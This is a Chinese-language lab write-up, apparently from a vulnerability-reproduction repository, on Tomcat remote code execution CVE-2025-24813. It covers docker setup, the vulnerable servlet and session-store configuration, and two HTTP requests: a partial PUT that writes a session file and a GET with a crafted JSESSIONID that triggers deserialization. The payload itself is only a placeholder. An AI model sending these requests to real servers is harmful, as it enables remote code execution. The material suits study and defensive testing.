

# Tomcat 远程代码执行漏洞（CVE-2025-24813）

Tomcat版本：9.0.97

## 环境搭建

```
docker compose build
docker compose up -d
```

运行完成后访问`http://your-ip:8080`即可看到Tomcat的Example页面。

## 漏洞原理

参考：

- https://forum.butian.net/article/674

由于Tomcat配置了可写（readonly=false）与文件存储会话，且他们默认存储的路径都是$CATALINA_BASE/work/Catalina/localhost/ROOT
，导致我们可以往服务器写文件，并且通过指定JSESSIONID对我们写的文件触发反序列化。

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

不完整PUT请求上传时，文件路径中的分隔符/会被转换为.并临时存储在$CATALINA_BASE/work/Catalina/localhost/ROOT

```
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```

开启文件存储会话

## 漏洞复现

通过Content-Range请求头构成不完整PUT请求，发送以下数据包使tomcat在临时目录写入文件.deserialize.session：

```
PUT /deserialize/session HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 1000
Content-Range: bytes 0-1000/1200

反序列化内容
```

发送以下数据包触发反序列化

```
GET / HTTP/1.1
Host: 127.0.0.1:8080
Cookie: JSESSIONID=.deserialize
```

如下：


